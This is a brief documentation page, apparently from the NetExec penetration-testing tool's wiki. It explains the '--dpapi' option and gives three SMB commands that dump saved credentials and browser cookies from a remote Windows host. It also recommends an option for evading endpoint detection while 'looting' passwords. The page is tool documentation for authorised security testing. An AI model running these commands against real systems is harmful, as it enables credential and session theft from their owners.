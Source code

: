 ```yaml
---
description: Dump DPAPI credentials using NetExec
---
```


# Dump DPAPI

You can dump DPAPI credentials using NetExec using the following option --dpapi. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. --dpapi support options :&#x20;

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords :fire:

{% hint style="danger" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
```
